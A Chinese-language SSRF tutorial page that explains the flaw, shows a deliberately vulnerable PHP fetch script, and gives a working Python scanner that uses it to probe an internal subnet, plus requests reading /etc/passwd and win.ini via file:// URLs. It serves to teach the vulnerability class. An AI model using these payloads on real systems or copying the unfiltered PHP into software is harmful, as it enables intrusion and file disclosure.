



SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。 

url是远程目标的文本

```http
http://www.webtester.com/ssrf.php?url=http://www.demo1.com/robots.txt
```

漏洞代码ssrf.php

```php
<?php
include 'init.php';
if ($_GET['url']) {
        // Client
        $url = $_GET['url'];
        $ch = curl_init($url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($ch, CURLOPT_NOSIGNAL, 1);
        curl_setopt($ch, CURLOPT_TIMEOUT_MS, 5000);
        $data = curl_exec($ch);
        $curl_errno = curl_errno($ch);
        $curl_error = curl_error($ch);
        curl_close($ch);

        if ($curl_errno > 0) {
                echo "cURL Error ($curl_errno): $curl_error\n";
        } else {
                echo "$data\n";
        }
} else {
        // Server
        sleep(10);
        echo "Done.";
}
?>
```

1、 利用扫描内部网络

扫描c段的ip 和端口

ssrf.py 

```python
#coding:utf-8
import urllib,urllib2
import threading,Queue,time

q = Queue.Queue()
lock = threading.Lock()
def get_server(url,data=None):
    code=html=length=""
    data ={'url':'http://'+data}
    values= urllib.urlencode(data)
    try:
        req=urllib2.urlopen(url, data=values, timeout=5)
        html=req.read()
        code =req.code
        length=len(html)
        return code,html,length
    except:
        return code,html,length
#print get_server("http://localhost/ssrf/ssrf.php", "127.0.0.1:3306")

def run():
    while q.qsize()>0:
        ip = q.get()
        code,html,length=get_server("http://www.webtester.com/ssrf.php",ip)
        time.sleep(0.01)
        if length!="":
            lock.acquire()
            print "http://"+ip+"    code     "+str(code)+"    length    "+str(length)+"    html    "+html
            lock.release()
        else:
            lock.acquire()
            print ip
            lock.release()            
    q.all_tasks_done
    
ip="192.168.31."
for i in range(1,255):
    for port in [22,80,8080,3306]:
        iport = ip+str(i)+":"+str(port)
        q.put(iport)
        
for i in range(10):
    t = threading.Thread(target=run)
    t.start()
q.join()
```

2、 攻击内部网络

```http
http://www.webtester.com/ssrf.php?url=http://192.168.31.125/phpinfo.php
```

 

3、识别内部系统

4、读取本地文件 

file:///C:/Windows/win.ini
file:///etc/passwd

```http
http://www.webtester.com/ssrf.php?url=file:///etc/passwd
```

 

用burpsuite进行测试

 
